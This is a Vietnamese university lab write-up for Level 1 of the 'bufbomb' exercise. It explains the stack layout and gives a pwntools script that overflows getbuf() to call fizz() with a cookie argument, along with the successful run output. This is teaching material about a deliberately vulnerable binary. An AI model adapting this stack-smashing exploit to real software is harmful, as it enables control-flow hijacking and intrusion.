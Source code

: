 # Level 1
## Task
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
```
```
└─$ ./bufbomb -u 09821978
Userid: 09821978
Cookie: 0x31f21393
Type string:abcdefgh
Dud: getbuf returned 0x1
Better luck next time
```
> Buffer overflow để thực thi được hàm `fizz()`.  

## Solution
Ở level này, cách chúng ta exploit cũng tương tự như ở [level 0](https://github.com/datthinh1801/NT209.L21.ANTN.Group_1/tree/main/Lab%205/Level%200), chỉ có duy nhất 1 điểm khác biệt là hàm `fizz()` có 1 tham số truyền vào.  
```c
void __cdecl __noreturn fizz(int a1)
{
  if ( a1 == cookie )
  {
    printf("Fizz!: You called fizz(0x%x)\n", a1);
    validate(1);
  }
  else
  {
    printf("Misfire: You called fizz(0x%x)\n", a1);
  }
  exit(0);
}
```  

Bên cạnh đó, hàm `fizz()` này sẽ so sánh giá trị được truyền vào với giá `cookie` được tạo từ `username`. Nếu 2 giá trị bằng nhau thì chuỗi `Fizz!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console, nếu không thì chuỗi `Misfire!: You called fizz(_giá_trị_hexa_của_tham_số_truyền_vào_)` sẽ được in ra console.  

Vậy bên cạnh việc overflow để thực thi được hàm `fizz()`, chúng ta còn cần phải truyền được giá trị bằng với giá trị `cookie` vào hàm `fizz()` này.  

Tiếp theo, để quyết định được payload để nhập vào chương trình, chúng ta sẽ xem stack trước khi hàm `Gets()` được thực thi.  
```
+---------------------------------+
|     return address (getbuf)     |---> return address của hàm getbuf()
+---------------------------------+
|           ebp (getbuf)          |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x24 bytes 
               .
+---------------------------------+
|              v1                 |---> top của stack
+---------------------------------+
```  
> Tương tự ở level 0, payload của chúng ta sẽ có độ dài là `0x28 + 0x4 + 0x4` với `4` bytes cuối là địa chỉ của hàm `fizz()`.

Stack khi bắt đầu thực thi hàm `fizz()`:  
```
+---------------------------------+
|           argument 1            |
+---------------------------------+
|     return address (fizz)       |---> return address của hàm fizz()
+---------------------------------+
|           ebp (fizz)            |---> đỉnh của stack
+---------------------------------+
```  

Khi hàm `fizz()` được thực thi thì giá trị của tham số thứ nhất sẽ được truy xuất qua tham chiếu `(%ebp + 8)` (như hình minh họa ở trên). Chính vì vậy, để thành công trong việc truyền giá trị vào hàm thì chúng ta cần ghi thêm `8` bytes vào payload với `4` bytes đầu để ghi đè giá trị của return address của hàm `fizz()` và `4` bytes cuối cùng chính là giá trị mà chúng ta muốn truyền vào hàm `fizz()`.

### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

# tạo process tới chương trình bufbomb
main_handler = process(['./bufbomb', '-u', '09821978'])

# tạo process tới chương trình makecookie để tạo cookie
cookie_getter = process(['./makecookie', '09821978'])
# lưu giá trị cookie
cookie = cookie_getter.recvline()[2:-1]
cookie = int(cookie, 16)
print(hex(cookie))

e = ELF('./bufbomb')

# tạo payload với (0x28 + 0x4) bytes ký tự 'A'
exploit_payload = b'A'*(0x28 + 4)
# lấy địa chỉ của hàm fizz() thêm vào payload
exploit_payload += p32(e.symbols['fizz'])
# tiếp tục chèn thêm 4 ký tự 'A' vào payload
# để ghi đè return address của hàm fizz
exploit_payload += b'A'*4
# chèn giá trị cookie vào payload
exploit_payload += p32(cookie)

print(exploit_payload)

with open('payload.txt', 'wb') as f:
    f.write(exploit_payload)

main_handler.sendline(exploit_payload)
main_handler.interactive()
```  

Stack khi bị overflow:  
```
+---------------------------------+
|             cookie              |---> tham số thứ nhất của hàm fizz()
+---------------------------------+
|             'AAAA'              |---> return address của hàm fizz()
+---------------------------------+
|      địa chỉ của hàm fizz()     |---> return address của hàm getbuf()
+---------------------------------+
|             'AAAA'              |---> ebp của hàm getbuf()
+---------------------------------+
               .
               . => 0x28 bytes 
               .
+---------------------------------+
|             'AAAA'              |---> top của stack
+---------------------------------+
```  

Chạy script.  
```
└─$ ./level1.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 29
[+] Starting local process './makecookie': pid 31
[*] Process './makecookie' stopped with exit code 0 (pid 31)
0x31f21393
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18\x9b\x13\x80AAAA\x93\x13\xf21'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 29)
Userid: 09821978
Cookie: 0x31f21393
Type string:Fizz!: You called fizz(0x31f21393)
VALID
NICE JOB!
[*] Got EOF while reading in interactive
$
```  
> Thành công!
